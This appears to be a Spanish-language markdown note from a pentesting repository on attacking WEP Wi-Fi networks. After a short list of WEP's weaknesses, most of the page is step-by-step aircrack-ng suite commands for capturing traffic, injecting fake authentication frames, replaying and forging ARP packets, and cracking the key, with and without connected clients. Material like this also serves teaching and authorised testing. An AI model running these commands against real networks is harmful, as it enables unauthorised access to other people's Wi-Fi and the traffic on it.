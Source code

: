 
El uso de redes tipo **WEP** se considera obsoleto, aunque algunos dispositivos antiguos todavía utilizan este tipo de red Wi-Fi.

## Usos
- Sistemas SCADA o equipamiento antiguo (fábricas, sistemas portuarios, etc.).
- Impresoras antiguas con conectividad Wi-Fi.

## Problemas Asociados
1. Utiliza el algoritmo **RC4**, vulnerable a ataques estadísticos.
2. La clave de acceso tiene una longitud limitada (5-13 caracteres).
3. Los clientes conectados tienen visibilidad entre ellos, lo que facilita ataques internos.
4. Si no está segmentada, puede permitir fugas de información y accesos a otras redes.
## Tipos de Ataque

### Con Clientes Conectados
#### Monitorizar y capturar tráfico
```bash
   $ airodump-ng -c 11 --bssid AA:BB:CC:DD:EE:FF -w fichero_captura
```

#### Inyectar tramas de autenticación falsas

```bash
   $ aireplay-ng -1 0 -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0
```
#### Repetir paquetes ARP para generar más vectores de inicialización

```bash
   $ aireplay-ng -3 0 -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0
```

#### Crackear la clave con aircrack-ng

```bash
   $ aircrack-ng fichero_captura.cap
```

### Sin Clientes Conectados
#### Monitorizar y capturar tráfico:

```bash
$ airodump-ng -c 11 --bssid AA:BB:CC:DD:EE:FF -w fichero_captura
```

#### Generar tramas **de** autenticación falsas:

```bash
$ aireplay-ng -1 0 -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0
```

#### Realizar ataque de fragmentación para generar un paquete ARP fraudulento:

```bash
$ aireplay-ng -5 0 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0
```

#### Construir un paquete ARP con packetforge-ng:

```bash
$ packetforge-ng -0 AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 -k 255.255.255.255
```

#### Reenviar el paquete ARP generado:

```bash
$ aireplay-ng wlan0 -2 -r arp-packet
```

#### Crackear la clave con aircrack-ng:

```bash
$ aircrack-ng fichero_captura.cap
```

## Para Saber Más
Consulta este [video en YouTube](https://www.youtube.com/watch?v=7J3OlWqL-7Q&t=725s) para ver una explicación práctica sobre ataques WEP basados en fragmentación utilizando la suite aircrack-ng.
